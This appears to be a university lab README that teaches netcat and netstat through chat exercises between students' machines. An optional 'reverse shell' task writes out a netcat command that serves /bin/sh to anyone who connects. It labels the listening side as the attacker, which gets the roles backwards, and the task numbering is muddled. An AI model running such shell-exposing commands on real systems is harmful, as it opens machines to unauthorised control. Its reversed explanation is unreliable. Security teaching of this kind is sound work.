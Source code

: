 # Network Programming Lab #2 - Command-line Networking Tools

Welcome to this lab on network programming! In this exercise, you will explore essential command-line tools such as `nc` (netcat) and `netstat` to understand how networking works at a low level. The goal is to establish communication between processes, analyze network connections, and document your findings.

## Prerequisites

You have `nc` (netcat) installed on our server. You can check this by running:

```sh
nc -h
```

## Tasks

### Task 1: Simple Chat with Netcat

1. Start a listening server:
   ```sh
   nc -l <port_number>
   ```
Use a random port number. You may want to use your student id number to avoid port conflicts (I don't know if you studentt id number is less than 65535?)
   - What does this nc command do? Try to understand its function.
2. Connect to the server from other terminal (cmd shell on windows). Figure out the command needed to connect to the listener by reading the `nc` manual, i. e.: `man nc` and connect to the port you used before.
3. Type messages in both terminals and observe how they are sent and received.
4. Experiment by connecting from another machine if possible.

_____________________________

### Task 2: Connect to the port opened by your fellow student

1. Use `netstat` tool to find out which other ports are open. Try to connect to someone's port.
It's better if the listener on that port is not busy, so coordinate the connection with your fellow student.

2. You still have `nc` running, but you connected to it and chatted with yourself. Now kill your client (ctrl+c in that console) or the server and in second case, run the server again, so that someone could connect to you.

Do `man netstat` to figure out how to know on which ports different `netstat` programs are listening.
Ask loudly, who listens to some port, and if you can connect to it. Then try to chat with your fellow.

For the next task you need to have nc on your Windows lab machine.

_______________________________

### Installing Netcat on Windows

Windows does not include Netcat by default, but there is `ncat`, which is part of the [Nmap](https://nmap.org/ncat/) package. However, to get a standalone executable, download a portable version from [eternallybored.org](https://eternallybored.org/misc/netcat/).
Unpack, etc., there you'll find `nc.exe` and a 64bit version too.

To use it:
```powershell
nc.exe -l <port_number>
```
To connect:
```powershell
nc.exe <server_ip> <port_number>
```

### Installing Netcat on macOS

If you want to use your own mac, then:

macOS includes Netcat by default. You can verify by running:
```sh
nc -h
```
If needed, you can install an alternative version using Homebrew:
```sh
brew install netcat
```

______________________________

### Task 3: Connect form your lab or personal computer to server's port.

1. Run `nc -l <someport>` on the server, if it's not run. It should not have clients currently connected to it, if it has, do `ctrl+c` to kill it (that will terminate incoming connection) and start again.
2. Now, connect to that port from your local Windows or macOS machine.


### Task 4: Run listening nc on your local Windows/Mac machine and try to connect to it from the server (the.hell.am)
1. Do you understand why you can't do it? Write about it below:

______________________________

### Task 4: Finding Local Machine IP and Chatting with a Neighbor

1. Find out the IP address of your lab machine:
   - **Windows**: Open PowerShell or Command Prompt and run:
     ```powershell
     ipconfig
     ```
   - **macOS/Linux**: Run:
     ```sh
     ip a
     ```
or
     ```sh
     ifconfig -a
     ```

2. Share your IP address with a classmate and have them do the same.
3. Decide who will listen and who will connect.
4. Start a listener:
   ```sh
   nc -l <port_number>
   ```
5. The other person should connect using the appropriate `nc` command.
6. Start chatting and document your findings.

________________________________

### Task 4: Reverse Shell Simulation (Optional, Advanced, but that's the most funny thing to do today)

> **Warning**: This task is for educational purposes only. Never use this technique on unauthorized systems.

1. On one machine (attacker), set up a listening session:
   ```sh
   nc -l <port_number> -e /bin/sh
   ```
2. On another machine (victim), connect to the attacker's listening port:
   ```sh
   nc <attacker_ip> <port_number>
   ```
3. If successful, the attacker will gain shell access to the victim's machine.
4. Reflect on the security implications and how this could be prevented.

________________________________

## Submission Instructions

- After completing the tasks, edit this `README.md` file and write down your observations under each task. There is an empty line like this: `________________`
- Document the commands you used and any challenges you faced.
- Commit and push your changes to the repository.

---

**Example Submission Format:**

### Task 1: Simple Chat with Netcat

- Used `nc -l 12345` on one terminal and figured out the correct connection command.
- Successfully sent messages between terminals.
- Also connected from another machine on the network.

### Task 2: Connecting to the Student Server

- Listened on the server and connected from a local machine.

### Task 3: Finding Local Machine IP and Chatting with a Neighbor

- Found my IP address using `ipconfig` (Windows) / `ip a` (Linux/macOS).
- Shared IP with a neighbor and successfully established a chat connection.

### Task 4: Discover Open Ports with Netstat

- Found `nc` listening on port 12345 using `netstat -tulnp`.
- Discovered other open ports like SSH (22) and web server (80).

### Task 5: Reverse Shell Simulation (if attempted)

- Experimented with `nc -l 4444 -e /bin/sh`.
- Learned about the security risks associated with open ports.

---

Good luck, and have fun exploring networking basics!

